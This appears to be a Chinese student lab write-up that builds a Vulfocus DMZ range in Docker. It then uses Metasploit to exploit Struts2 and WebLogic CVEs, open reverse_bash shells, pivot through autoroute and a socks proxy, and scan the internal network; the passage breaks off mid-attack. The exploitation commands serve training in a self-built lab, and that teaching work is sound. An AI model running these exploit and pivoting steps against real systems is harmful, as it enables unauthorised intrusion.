## 网安实践实验

### 安装docker
根据教学wiki给出的视频链接，可以进入GitHub进行虚拟机的配置，下面是命令：
```bash
#将软件源信息写入list文件，使 APT 可以从这个源安装 Docker 相关软件
echo "deb [arch=amd64 signed-by=/etc/apt/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" | \
sudo tee /etc/apt/sources.list.d/docker.list 

#使用 curl 命令下载 Docker 官方的 GPG 公钥，将GPG 公钥从文本格式转换为二进制格式，用以验证 Docker 软件包的签名，确保软件包来源可信
  curl -fsSL https://download.docker.com/linux/debian/gpg |
  sudo gpg --dearmor -o /etc/apt/keyrings/docker.gpg

#安装 Docker 及相关组件
  sudo apt update
  sudo apt install -y docker-ce docker-ce-cli containerd.io
```

### vulfocus环境搭建
* docker版本检测
首先在虚拟机里面拉取docker镜像，使用命令进行docker版本检测
```bash
docekr --version
```


* 将git里面的文件克隆到kali虚拟机里面，使用bash语句开始脚本


使用主机访问Vulfocus，访问地址：宿主机HostOnly IP地址：80


在左侧菜单中的镜像管理下，我们进入之后点击右上角的”一键同步“，vulfocus会去访问它自己的服务器，去拉取当前所有可用的漏洞复现环境的地址，之后我们便可以在此页面下搜索我们想要使用的漏洞复现的环境进行下载、启动。


### DMZ环境搭建
在Vulfocus基础上进行操作

#### 网卡创建
首先根据下面步骤创建两个网卡，网卡名随意，子网和网关不和虚拟机网卡重复即可


#### DMZ场景编排
在ctf-games/fofapro/vulfocus文件下使用ls指令确定是否有DMZ.zip

然后使用下面的指令进行解压缩
```bash
unzip DMZ.zip
```
对DMZ.zip解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

可以直接通过对 raw-content.json这个文件格式化查看，也可以通过 jq和 grep查找需要的内容。

首先确定需要的镜像有哪些：
```bash
cat raw-content.json | jq . | grep image_name
```
即查看文件中与 image_name相关的内容有哪些：


可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
``` 
我们使用的是docker pull的方法进行的镜像拉取
完成拉取以后，可以进行页面编排了，编排出的信息如下：



完成编排以后保存发布我们就可以进行场景的启动了

需要注意的是启动场景给出的访问地址要改成我们自己的靶机IP。

#### 流量捕获配置
启动场景以后，我们要根据下面的命令开启对struts2-cve_2020_17530的流量捕获
```bash
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


### DMZ入口靶标
入口靶标页面如下：注意记录IP和端口号


进入攻击机，更新并初始化 metasploit
```bash
sudo apt install -y metasploit-framework
sudo msfdb init
```
进入数据库，检查数据库连接情况并创建工作区准备攻击：
```bash
db_status
workspace - a vulfoucus
```

由于已经知道了漏洞为 struts2代码执行漏洞，所以进行相关搜索搜索：

```bash
search struts2 type:exploit
search S2-059 type:exploit
```
使用 info可以指定序号或名称查看详情
```bash
info 0
```
使用 use可以使用指定的exp
```bash
use 0
```
使用 show options可以查看exp的详细参数配置,使用 show payloads可以查看可用 exp payloads：
```bash
show options
show payloads
```


选择一个需要的 payload使用并根据参数列表的内容修改靶机和攻击机的参数:
```bash
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.206.4   #靶机IP
set RPORT  23068    #靶机目标端口  
set LHOST  192.168.242.7   #攻击者主机IP 
```


执行攻击，如果攻击成功可以获得靶机的shell：
```bash
run -j
```
使用 sessions命令查看列表，打开 shell执行命令
```bash
sessions -l
sessions -i 2
```

可以得到flag

### 建立立足点发现靶标2、3、4

在刚才的基础上，使用ctrl^z将session放入后台
对要攻击的目标进行扫描：
```bash
db_nmap -p 60990,80,22 192.168.206.4 -A -T4 -n
```
然后查看hosts和services情况，将shell升级为Meterpreter Shell

发现入口靶机的内部地址为 192.170.84.3并且发现有一个新的网段 192.170.84.0/24
接下来返回工作台，执行下面命令并查看建立的结果：
```bash
run autoroute -s 192.170.84.0/24
run autoroute -p
```

退出当前的session准备端口扫描：

首先搜索需要的模块，然后选择需要使用的模块
```bash
search portscan
use auxiliary/scanner/portscan/tcp
```


和之前一样要进行参数的配置：
```bash
set RHOSTS 192.170.84.2-254 #根据之前的内网网关ip为192.170.84.1推断其他的ip一定是介于2到254
set PORTS 7001 #为了加快扫描速度指定扫描端口为7001，这里也可以不指定，但会慢很多
set THREADS 10 #多线程加快扫描速度
```


新扫描到的 ip 被同步到了 hosts与 services表中,然后搜索并使用另外一个 socks_proxy 模块,参数不用做修改


直接启动l然后在攻击机中另开一个 shell: 先检查下 1080 端口服务开放情况：
```bash
sudo lsof -i tcp:1080 -l -n -P
```
确定端口开放正常后，对下面的配置文件进行编辑，在其最后修改 socks 代理为 socks5 127.0.0.1 1080 
```bash
sudo vim /etc/proxychains4.conf
```


然后执行下面的命令对内网进行扫描：
```bash
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
```


可以看到扫描到的结果均为 filter (过滤)

下面需要去验证这些断后是否针对能连通： 进入入口机的 shell 当中，执行下面的 curl命令获取指定的内网网页内容：
```bash
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.4:7001 -vv
curl http://192.170.84.5:7001 -vv
```
### 攻击内网第一层靶标
确认内网第一层靶标的目标后，和之前对入口靶标攻击一样，这里由于已经知道了具体的漏洞类型，所以可以直接搜索具体的类型进行攻击：
```bash
search cve-2019-2725
use 0
show options
```


修改其中的参数，将 RHOSTS 与 LHOST 进行修改,使用的 payload 还和入口靶标一样，是 reverse_bash（反弹shell），不需要修改
